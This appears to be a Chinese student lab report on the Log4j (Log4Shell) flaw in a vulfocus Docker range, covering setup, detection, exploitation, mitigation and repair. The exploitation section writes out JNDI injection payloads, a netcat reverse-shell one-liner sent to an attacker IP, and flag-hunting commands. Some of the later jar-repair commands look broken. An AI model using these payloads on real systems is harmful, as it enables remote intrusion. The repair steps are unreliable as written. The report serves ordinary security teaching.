








# log4j

## 实验任务

log4j环境搭建以及漏洞利用检测工作

## 实验环境

* **系统环境** ：Kali Linux on ARM64(aarch64)
* **Docker版本** ：Docker
* **目标容器** ：vulfocus/vulfocus:latest (x86_64架构)
* **虚拟机**：Parallels Desktop20.0

## 实验步骤

### 1.log4j环境搭建

#### 1. vulfocus容器搭建

克隆仓库

```bash
git clone https://github.com/c4pr1c3/ctf-games.git
```

搭建

```bash
# ref: https://www.kali.org/docs/containers/installing-docker-on-kali/#installing-docker-ce-on-kali-linux
# 注意以下内容复制粘贴自上述 ref 链接，版本若有更新，请优先参考 ref 链接
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" | sudo tee /etc/apt/sources.list.d/docker.list 

curl -fsSL https://download.docker.com/linux/debian/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

sudo apt update && sudo apt install -y docker-ce docker-ce-cli containerd.io jq

# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
sudo usermod -aG docker $USER
newgrp docker  # 立即应用新组权限

# 切换到 root 用户
sudo su -

# 使用国内 Docker Hub 镜像源（可选步骤）
# 国内 Docker Hub 镜像源可用性随时可能变化，请自测可用性
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": [
    "https://docker.tabssr.top"
  ]
}
EOF

# 重启 docker 守护进程
systemctl restart docker

# 提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest
```

安装QEMU用户态模拟工具，使ARM64系统能够运行x86_64架构的二进制文件：

```bash
sudo apt-get install qemu-user-static
```

配置多架构支持：

使用tonistiigi/binfmt工具注册跨平台模拟支持：

```bash
sudo docker run --privileged --rm tonistiigi/binfmt --install all

```

此命令会注册多种架构的支持，包括amd64(x86_64)、arm、arm64等。

验证跨架构支持是否生效：

使用Alpine镜像进行测试，确认跨架构支持正常工作：

```bash
docker run --platform linux/amd64 --rm -it alpine:latest sh -c "uname -m"
```

输出结果应为 `x86_64`，表明虽然在ARM64物理机上，但容器中运行的是x86_64环境。

修改Docker Compose配置：

编辑docker-compose.yml文件，添加platform参数指定容器运行的目标平台：

```yaml
services:
  vul-focus:
    platform: linux/amd64  # 添加此行
    image: vulfocus/vulfocus:latest
    # 其他配置保持不变...

```

启动容器服务：

切换到ctf-games/fofapro/vulfocus路径下

使用修改后的配置启动vulfocus服务：

```bash
bash start.sh
```

选择host-only的ip地址


结果验证：

执行 `docker ps`命令可以看到容器成功运行并保持健康状态：

```
CONTAINER ID   IMAGE                      COMMAND                  CREATED          STATUS                    PORTS                               NAMES
f1dbefb28904   vulfocus/vulfocus:latest   "sh /vulfocus-api/ru…"   10 seconds ago   Up 10 seconds (healthy)   0.0.0.0:80->80/tcp, :::80->80/tcp   vulfocus_vul-focus_1

```

登陆http://10.37.133.3/

账号admin，密码admin


#### 2. log4j环境搭建

如下图路径，下载


修改镜像过期时间


下载好后可在首页看到


点击启动


访问地址 `10.37.133.3:56174`


### 2.漏洞存在检测

#### 2.1 确认容器状态

```
docker ps                                 
```


确认log4j2-rce容器正在运行，端口映射为56334。

#### 从容器中提取JAR文件

```
# 进入容器
docker exec -it recursing_proskuriakova bash

# 复制JAR文件到本地
docker cp recursing_proskuriakova:/demo/demo.jar ./
```




#### 环境准备

```
# 安装Java开发工具包
sudo apt update
sudo apt install default-jdk

# 验证jar工具可用性
jar --version
```


#### JAR文件分析

```
# 创建临时目录
mkdir temp && cd temp

# 解压 JAR 文件
jar xf ../demo.jar

# 查看 pom.xml 或 MANIFEST.MF 文件中的依赖信息
cat META-INF/MANIFEST.MF

# 查找 log4j 相关类文件
find . -name "*.class" | grep -i log4j
```


检查MANIFEST.MF文件，确认关键信息：

Implementation-Title: log4j2_rce
Spring-Boot-Version: 2.1.3.RELEASE
Start-Class: com.example.log4j2_rce.Log4j2RceApplication

找到关键类文件： ./BOOT-INF/classes/com/example/log4j2_rce/Log4j2RceApplication.class

初步结论，通过分析发现：

应用使用log4j2框架
包含log4j2_rce相关类
为Spring Boot应用，版本2.1.3.RELEASE
存在可疑的RCE（远程代码执行）相关类

### 3.漏洞利用检测

访问http://www.dnslog.cn/

Get SubDomain


在kali虚拟机中执行

```
curl -X POST http://10.37.133.3:56174/hello -d 'payload="${jndi:ldap://m8ljvi.dnslog.cn/ssd}"'
```

出现报错，服务器不支持 `POST`请求方法


改用GET

```
curl -X GET http://10.37.133.3:56174/hello?payload='${jndi:ldap://m8ljvi.dnslog.cn/ssd}'
```



得到ok


### 4.漏洞利用

```
 wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip
```

这里实际是攻击者


因为失败了几次，最后下载的成功的带有.5

```
unzip JNDIExploit.v1.2.zip.5
```

1. **确保先开启监听**（在一个新终端中）：

```bash
nc -lvnp 9999
```



2. **在另一个终端启动JNDI服务**：

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 10.37.132.3
```


3. **生成反弹shell命令**：

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.37.132.3 9999 >/tmp/f' | base64
```

4. **发送漏洞利用请求**（使用生成的base64编码）：

```bash
curl -X GET "http://10.37.133.3:56334/hello?payload=\${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMzcuMTMyLjMgOTk5OSA+L3RtcC9mCg==}"
```


如果成功，你会在nc监听窗口看到shell连接。然后在获得的shell中执行：

```bash
whoami
pwd
find / -name flag 2>/dev/null
ls -la /root
```

### 5.漏洞缓解

# Log4j 漏洞缓解步骤

## 1. 分析当前环境

首先，我们需要分析被攻击的容器环境：

```bash
docker ps
```

输出：

```
CONTAINER ID   IMAGE                               COMMAND                CREATED          STATUS          PORTS                                         NAMES
8e86d0e9ef1e   vulfocus/log4j2-rce-2021-12-09:1   "java -jar /demo/dem…" About a minute ago   Up About a minute   0.0.0.0:40615->8080/tcp, :::40615->8080/tcp   objective_driscoll
```

检查容器详情：

```bash
docker inspect objective_driscoll
```


```
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker inspect objective_driscoll
[
    {
        "Id": "8e86d0e9ef1e0694f52a77596b352d1ace2f3206054ef743db78f00c3947cc57",
        "Created": "2025-03-23T15:06:15.119149113Z",
        "Path": "java",
        "Args": [
            "-jar",
            "/demo/demo.jar"
        ],
        "State": {
            "Status": "running",
            "Running": true,
            "Paused": false,
            "Restarting": false,
            "OOMKilled": false,
            "Dead": false,
            "Pid": 4307,
            "ExitCode": 0,
            "Error": "",
            "StartedAt": "2025-03-23T15:06:15.986584908Z",
            "FinishedAt": "0001-01-01T00:00:00Z"
        },
        "Image": "sha256:4ba6de62bfd4e75f8636662f23d1c77db2ad1332f07dd630c58db637a829ba48",
        "ResolvConfPath": "/var/lib/docker/containers/8e86d0e9ef1e0694f52a77596b352d1ace2f3206054ef743db78f00c3947cc57/resolv.conf",
        "HostnamePath": "/var/lib/docker/containers/8e86d0e9ef1e0694f52a77596b352d1ace2f3206054ef743db78f00c3947cc57/hostname",
        "HostsPath": "/var/lib/docker/containers/8e86d0e9ef1e0694f52a77596b352d1ace2f3206054ef743db78f00c3947cc57/hosts",
        "LogPath": "/var/lib/docker/containers/8e86d0e9ef1e0694f52a77596b352d1ace2f3206054ef743db78f00c3947cc57/8e86d0e9ef1e0694f52a77596b352d1ace2f3206054ef743db78f00c3947cc57-json.log",
        "Name": "/objective_driscoll",
        "RestartCount": 0,
        "Driver": "overlay2",
        "Platform": "linux",
        "MountLabel": "",
        "ProcessLabel": "",
        "AppArmorProfile": "docker-default",
        "ExecIDs": null,
        "HostConfig": {
            "Binds": null,
            "ContainerIDFile": "",
            "LogConfig": {
                "Type": "json-file",
                "Config": {}
            },
            "NetworkMode": "bridge",
            "PortBindings": {
                "8080/tcp": [
                    {
                        "HostIp": "",
                        "HostPort": "40615"
                    }
                ]
            },
            "RestartPolicy": {
                "Name": "no",
                "MaximumRetryCount": 0
            },
            "AutoRemove": false,
            "VolumeDriver": "",
            "VolumesFrom": null,
            "ConsoleSize": [
                0,
                0
            ],
            "CapAdd": null,
            "CapDrop": null,
            "CgroupnsMode": "private",
            "Dns": null,
            "DnsOptions": null,
            "DnsSearch": null,
            "ExtraHosts": null,
            "GroupAdd": null,
            "IpcMode": "shareable",
            "Cgroup": "",
            "Links": null,
            "OomScoreAdj": 0,
            "PidMode": "",
            "Privileged": false,
            "PublishAllPorts": false,
            "ReadonlyRootfs": false,
            "SecurityOpt": null,
            "UTSMode": "",
            "UsernsMode": "",
            "ShmSize": 67108864,
            "Runtime": "runc",
            "Isolation": "",
            "CpuShares": 0,
            "Memory": 0,
            "NanoCpus": 0,
            "CgroupParent": "",
            "BlkioWeight": 0,
            "BlkioWeightDevice": null,
            "BlkioDeviceReadBps": null,
            "BlkioDeviceWriteBps": null,
            "BlkioDeviceReadIOps": null,
            "BlkioDeviceWriteIOps": null,
            "CpuPeriod": 0,
            "CpuQuota": 0,
            "CpuRealtimePeriod": 0,
            "CpuRealtimeRuntime": 0,
            "CpusetCpus": "",
            "CpusetMems": "",
            "Devices": null,
            "DeviceCgroupRules": null,
            "DeviceRequests": null,
            "MemoryReservation": 0,
            "MemorySwap": 0,
            "MemorySwappiness": null,
            "OomKillDisable": null,
            "PidsLimit": null,
            "Ulimits": null,
            "CpuCount": 0,
            "CpuPercent": 0,
            "IOMaximumIOps": 0,
            "IOMaximumBandwidth": 0,
            "MaskedPaths": [
                "/proc/asound",
                "/proc/acpi",
                "/proc/kcore",
                "/proc/keys",
                "/proc/latency_stats",
                "/proc/timer_list",
                "/proc/timer_stats",
                "/proc/sched_debug",
                "/proc/scsi",
                "/sys/firmware",
                "/sys/devices/virtual/powercap"
            ],
            "ReadonlyPaths": [
                "/proc/bus",
                "/proc/fs",
                "/proc/irq",
                "/proc/sys",
                "/proc/sysrq-trigger"
            ]
        },
        "GraphDriver": {
            "Data": {
                "LowerDir": "/var/lib/docker/overlay2/6447c147cb4d135189f804a94868c984477d789faa998182ca6294e398839370-init/diff:/var/lib/docker/overlay2/0a7314753f4967f73b3c5e8f4b9927051318bbe2523a82ca7fe47c76cd254305/diff:/var/lib/docker/overlay2/9bf828f3851c31c15f048d1a036e0b27f1304d0cf56b7224eb0a04649f97853a/diff:/var/lib/docker/overlay2/054943805e10da81044c92eaf6c01b083f35d42780b63c4c71b27bd1c846373c/diff:/var/lib/docker/overlay2/d98179e67e389e7eea98a95d19e5718436b7c81fd1963c36b68bcce79b3fffa7/diff:/var/lib/docker/overlay2/670ef9f25fba8646bc5720e26c5d5a43505a6b9b17890c6e628bd4dcc9eb7928/diff:/var/lib/docker/overlay2/a204a8037414cd9b78621f1f941ec1c39a53c140d0c44354c1107bf7b18ebb20/diff",
                "MergedDir": "/var/lib/docker/overlay2/6447c147cb4d135189f804a94868c984477d789faa998182ca6294e398839370/merged",
                "UpperDir": "/var/lib/docker/overlay2/6447c147cb4d135189f804a94868c984477d789faa998182ca6294e398839370/diff",
                "WorkDir": "/var/lib/docker/overlay2/6447c147cb4d135189f804a94868c984477d789faa998182ca6294e398839370/work"
            },
            "Name": "overlay2"
        },
        "Mounts": [],
        "Config": {
            "Hostname": "8e86d0e9ef1e",
            "Domainname": "",
            "User": "",
            "AttachStdin": false,
            "AttachStdout": false,
            "AttachStderr": false,
            "ExposedPorts": {
                "8080/tcp": {}
            },
            "Tty": false,
            "OpenStdin": false,
            "StdinOnce": false,
            "Env": [
                "vul_flag=flag-{bmh1205e776-5209-4a0f-8c5a-c01d1150a59e}",
                "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
            ],
            "Cmd": [
                "java",
                "-jar",
                "/demo/demo.jar"
            ],
            "Image": "vulfocus/log4j2-rce-2021-12-09:1",
            "Volumes": null,
            "WorkingDir": "/demo/",
            "Entrypoint": null,
            "OnBuild": null,
            "Labels": {
                "description": "Vulfocus for Docker",
                "maintainer": "r4v3zn <woo0nise@gmail.com>",
                "version": "0.2.2"
            }
        },
        "NetworkSettings": {
            "Bridge": "",
            "SandboxID": "1ca1ef6869dfe8b286b80a8903abbba21a6ddf1aa8fa90a499a567905642f67f",
            "SandboxKey": "/var/run/docker/netns/1ca1ef6869df",
            "Ports": {
                "8080/tcp": [
                    {
                        "HostIp": "0.0.0.0",
                        "HostPort": "40615"
                    },
                    {
                        "HostIp": "::",
                        "HostPort": "40615"
                    }
                ]
            },
            "HairpinMode": false,
            "LinkLocalIPv6Address": "",
            "LinkLocalIPv6PrefixLen": 0,
            "SecondaryIPAddresses": null,
            "SecondaryIPv6Addresses": null,
            "EndpointID": "8bcf7ac2e8e053d4db190e9f2c419f1d6527fed33ceabbdcce66db133835f2aa",
            "Gateway": "172.17.0.1",
            "GlobalIPv6Address": "",
            "GlobalIPv6PrefixLen": 0,
            "IPAddress": "172.17.0.2",
            "IPPrefixLen": 16,
            "IPv6Gateway": "",
            "MacAddress": "02:42:ac:11:00:02",
            "Networks": {
                "bridge": {
                    "IPAMConfig": null,
                    "Links": null,
                    "Aliases": null,
                    "MacAddress": "02:42:ac:11:00:02",
                    "NetworkID": "4082c4d2ea62bd13d35cb5a0e5bcd4f1b6fda87c1ccc32b1e17fafb78911dd5c",
                    "EndpointID": "8bcf7ac2e8e053d4db190e9f2c419f1d6527fed33ceabbdcce66db133835f2aa",
                    "Gateway": "172.17.0.1",
                    "IPAddress": "172.17.0.2",
                    "IPPrefixLen": 16,
                    "IPv6Gateway": "",
                    "GlobalIPv6Address": "",
                    "GlobalIPv6PrefixLen": 0,
                    "DriverOpts": null,
                    "DNSNames": null
                }
            }
        }
    }
]

```

## 2. 临时缓解措施 - 通过JVM参数禁用JNDI查找

### 停止当前容器

```bash
docker stop objective_driscoll
```

### 重新启动并添加JVM参数来禁用JNDI查找

```bash
# 移除旧容器但保留其名称以重用
docker rm objective_driscoll

# 使用相同的镜像启动新容器，但添加安全参数
docker run -d --name objective_driscoll \
  -e JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true" \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  /bin/sh -c "java ${JAVA_OPTS} -jar /demo/demo.jar"
```



```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker run -d --name objective_driscoll \
  -e JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true" \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  /bin/sh -c "java ${JAVA_OPTS} -jar /demo/demo.jar"
WARNING: The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8) and no specific platform was requested
bfca568f93133cae399687bb3b1978a3aecad223df2fa4dabb4b7fdead10c954
```

### 验证JVM参数是否生效

```bash
docker exec objective_driscoll ps aux | grep java
```


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker exec objective_driscoll ps aux | grep java
root           1  0.0  0.6 230684 13300 ?        Ssl  15:17   0:00 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /bin/sh /bin/sh -c java  -jar /demo/demo.jar
root           8 95.3 21.4 4087404 432784 ?      Sl   15:17   0:41 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -jar /demo/demo.jar
```

通过ps aux命令查看进程状态，我们可以发现：

```bash
root           1  0.0  0.6 230684 13300 ?        Ssl  15:17   0:00 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /bin/sh /bin/sh -c java  -jar /demo/demo.jar
root           8 95.3 21.4 4087404 432784 ?      Sl   15:17   0:41 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -jar /demo/demo.jar
```

这表明：

JVM安全参数未被正确应用到Java命令中
容器通过QEMU进行x86_64到ARM64的二进制转译执行
环境变量展开可能在QEMU转译过程中出现问题

```bash
# 重新启动容器，直接在命令行中添加安全参数
docker run -d --name objective_driscoll \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
```


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker run -d --name objective_driscoll \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
WARNING: The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8) and no specific platform was requested
084815a8e54d2df4be58335c743c8934b065dcc73ae32d4dbdaafe014eff6b62
                                                                                        
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker exec objective_driscoll ps aux | grep java
root           1 91.8 10.9 3717788 221836 ?      Ssl  15:24   0:10 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
```

从输出中我们可以看到：

安全参数成功应用 - 所有三个关键参数`(-Dlog4j2.formatMsgNoLookups=true、-Dcom.sun.jndi.ldap.object.trustURLCodebase=false和-Dlog4j2.disableJndi=true)`现在都出现在Java进程的命令行中。

QEMU转译执行 - 进程是通过`/usr/libexec/qemu-binfmt/x86_64-binfmt-P`在ARM64主机上运行x86_64二进制文件。注意命令行中同时出现了java和参数之前的java，这是QEMU转译的特殊情况。

架构转译特性 - 进程使用了大量内存(3717788 KB ≈ 3.7GB)，CPU使用率也较高(91.8%)，这是由于架构转译带来的额外开销。

改进总结

1. 直接命令行参数vs环境变量：在跨架构容器中，直接在命令行中指定JVM参数比通过环境变量更可靠，因为环境变量可能在QEMU转译层中丢失或未正确传递。

2. 验证参数应用：通过ps aux命令查看进程参数是确认安全缓解措施是否生效的关键步骤，不应该省略。

3. 跨架构注意事项：在ARM64上运行x86_64容器时，性能会有所下降，且某些行为可能与原生架构有所不同，这需要在实际操作和排错中特别注意。

这种方法成功应用了所有安全参数，有效缓解了Log4j漏洞，即使在跨架构环境中也能正常工作


### 6.漏洞修复部分

首先，让我们确认目标容器的运行状态：

```bash
docker ps
```

输出显示：


永久修复方案 - 移除 JndiLookup 类

这个修复方案通过从 log4j-core 包中移除 JndiLookup 类来完全禁用 JNDI 查找功能，从而永久修复漏洞。

### 进入容器执行修复操作

```bash
# 进入容器
docker exec -it xenodochial_panini /bin/bash

# 安装必要工具
apt-get update && apt-get install -y zip unzip
```


### 创建工作目录并准备环境

```bash
# 创建临时工作目录
mkdir -p /tmp/jar-fix
cd /tmp/jar-fix

# 复制并解压主应用 jar 文件
cp /demo/demo.jar ./
unzip demo.jar
```


```bash
# 查找 log4j 相关的 jar 文件
find BOOT-INF/lib -name "*log4j*.jar"
```




### 修改 log4j-core 库以移除 JndiLookup 类

```bash
# 创建子目录处理 log4j-core jar
mkdir log4j-fix
cd log4j-fix

# 复制并解压 log4j-core
cp ../BOOT-INF/lib/log4j-core-2.14.0.jar ./
unzip log4j-core-2.14.0.jar
```



```bash
# 删除 JndiLookup 类 - 这是漏洞的根源
rm -f org/apache/logging/log4j/core/lookup/JndiLookup.class

# 验证类文件已被删除
ls -la org/apache/logging/log4j/core/lookup/JndiLookup.class 2>/dev/null || echo "已成功删除 JndiLookup 类"

```


```bash
# 重新打包修改后的 jar 文件
jar -cf log4j-core-2.14.0-fixed.jar .

# 用修复版替换原始 jar 文件
cp log4j-core-2.14.0-fixed.jar ../BOOT-INF/lib/log4j-core-2.14.0.jar

# 返回主目录
cd /tmp/jar-fix
```



### 重新打包修复后的应用 JAR

```bash
# 重新打包整个应用
jar -cfM fixed-demo.jar META-INF BOOT-INF org

# 备份原始应用
cp /demo/demo.jar /demo/demo.jar.bak

# 替换为修复后的应用
cp fixed-demo.jar /demo/demo.jar

# 设置正确的权限
chmod 644 /demo/demo.jar

# 清理临时文件
cd /
rm -rf /tmp/jar-fix
```


### 退出容器并重启应用使修复生效

```bash
# 退出容器
exit

# 重启容器应用修复
docker restart xenodochial_panini

# 检查容器是否成功重启
docker ps
```

出现问题：objective_driscoll重启失败


分析容器启动失败的原因

```bash
# 查看日志
docker logs xenodochial_panini
```


通过分析 Docker 容器日志，我发现了容器启动失败的具体原因：

## 错误分析

从日志中可以看出，应用最初成功启动了（Spring Boot banner和初始化消息正常），但在重启时出现了严重错误：

```
Exception in thread "main" java.lang.IllegalStateException: Failed to get nested archive for entry BOOT-INF/lib/spring-boot-starter-2.1.3.RELEASE.jar
...
Caused by: java.lang.IllegalStateException: Unable to open nested entry 'BOOT-INF/lib/spring-boot-starter-2.1.3.RELEASE.jar'. It has been compressed and nested jar files must be stored without compression. Please check the mechanism used to create your executable jar file
```

## 根本原因

这个错误是由我们修改和重新打包JAR文件的方式导致的：

1. **压缩问题**：Spring Boot要求嵌套JAR文件（BOOT-INF/lib/中的依赖）必须不压缩存储，但我们的重新打包过程压缩了这些文件
2. **JAR结构破坏**：我们使用的`jar -cfM`命令没有保留Spring Boot加载器所需的特殊结构

## 重要的命令分析

```bash
jar -cfM fixed-demo.jar META-INF BOOT-INF org
```

这个命令中：
- `-c` - 创建新归档
- `-f` - 指定输出文件
- `-M` - 不创建MANIFEST文件

但我们缺少了关键的`-0`（零）标志，该标志会指定"仅存储 - 不压缩"。

## 解决方案


经验教训

1. **Spring Boot JAR修改复杂**：Spring Boot可执行JAR有特殊结构，不能用标准JAR工具简单修改


# 修复 Log4j 漏洞 - 正确重新打包 JAR 文件

基于前面的问题分析，我将提供一个修正后的完整修复流程，确保正确保留 Spring Boot 的 JAR 文件结构。

## 1. 进入容器并准备环境

```bash
# 进入容器
docker exec -it infallible_mccarthy /bin/bash

# 安装必要工具
apt-get update && apt-get install -y zip unzip
```


## 2. 创建工作目录

```bash
# 创建临时工作目录
mkdir -p /tmp/jar-fix
cd /tmp/jar-fix
```

## 3. 定位并修复 log4j-core 库

```bash
# 复制原始 JAR 以便进行修改
cp /demo/demo.jar ./original-demo.jar

# 找出包含 log4j-core 的路径
jar -tf original-demo.jar | grep log4j-core
```


BOOT-INF/lib/log4j-core-2.14.0.jar

```bash
# 提取单个 JAR 文件
jar -xf original-demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar

# 创建临时目录以修改 log4j-core
mkdir log4j-fix
cd log4j-fix

# 解压 log4j-core JAR
jar -xf ../BOOT-INF/lib/log4j-core-2.14.0.jar

# 删除 JndiLookup 类
rm -f org/apache/logging/log4j/core/lookup/JndiLookup.class

# 确认删除成功
ls -la org/apache/logging/log4j/core/lookup/JndiLookup.class 2>/dev/null || echo "已成功删除 JndiLookup 类"

# 重新创建 log4j-core JAR（使用 -0 不压缩）
jar -cf0 ../BOOT-INF/lib/log4j-core-2.14.0.jar .

# 返回上一级目录
cd ..
```



## 4. 使用适当方法修改 Spring Boot JAR

对于 Spring Boot 应用，最安全的方法是：

```bash
# 创建新目录存放修改后的 JAR 文件
mkdir fixed-jar
cp original-demo.jar fixed-jar/demo.jar

# 备份原始文件
cp /demo/demo.jar /demo/demo.jar.backup

# 复制修复后的 log4j-core 到原始 JAR
cd fixed-jar
mkdir -p BOOT-INF/lib/
cp ../BOOT-INF/lib/log4j-core-2.14.0.jar BOOT-INF/lib/

# 使用 zip 命令更新 JAR 中的文件（不更改其他结构）
zip -u demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar

# 将修复后的 JAR 替换原始文件
cp demo.jar /demo/demo.jar
```


## 5. 退出容器并重启应用

```bash
# 退出容器
exit

# 重启容器
docker restart infallible_mccarthy

```


1. **使用 -0 标志**：确保 JAR 文件内容存储而不压缩
2. **使用 zip -u 更新**：只替换特定文件，保持其他结构不变
3. **最小化修改范围**：只替换有问题的 log4j-core JAR，不重建整个应用 JAR


容器启动失败，分析原因

容器成功启动（从 Spring Boot 的启动横幅和初始化信息可以看出）
它运行了一段时间，并且至少处理了一个请求（我们能看到在 00:25:06 时的日志记录）
在 00:32:49 时，某些情况触发了应用程序的关闭
当尝试重新启动时，修改后的 JAR 文件结构导致了失败

尝试以下确保正确保留 JAR 文件结构的方法：

```bash
# 从原始镜像启动一个新容器
docker run -d --name log4j_fixed -p <端口号>:8080 vulfocus/log4j2-rce-2021-12-09:1

# 进入容器
docker exec -it log4j_fixed /bin/bash

# 在容器内，安装所需工具并修复 JAR 文件
apt-get update && apt-get install -y zip unzip

# 仅提取 log4j-core JAR 文件
cd /tmp
mkdir fix
cd fix
cp /demo/demo.jar ./
unzip -p demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar > log4j-core.jar

# 修复 log4j-core JAR 文件
mkdir core
cd core
unzip ../log4j-core.jar
rm -f org/apache/logging/log4j/core/lookup/JndiLookup.class
zip -0 -r ../fixed-log4j-core.jar .

# 更新原始 JAR 文件，不进行重新压缩
cd ..
cp demo.jar demo.jar.original
printf "UEsDBAoAAAAAAA" | dd of=fixed-log4j-core.jar bs=1 count=12 conv=notrunc
zip -0 demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar

# 替换原始 JAR 文件
cp demo.jar /demo/demo.jar
```

完成这些步骤后，重启容器：

```bash
exit

docker restart log4j_fixed
```
这种方法的关键区别在于：

始终使用 -0 标志以避免压缩
使用 printf "UEsDBAoAAAAAAA" | dd of=fixed-log4j-core.jar bs=1 count=12 conv=notrunc 来确保正确的 ZIP 头部
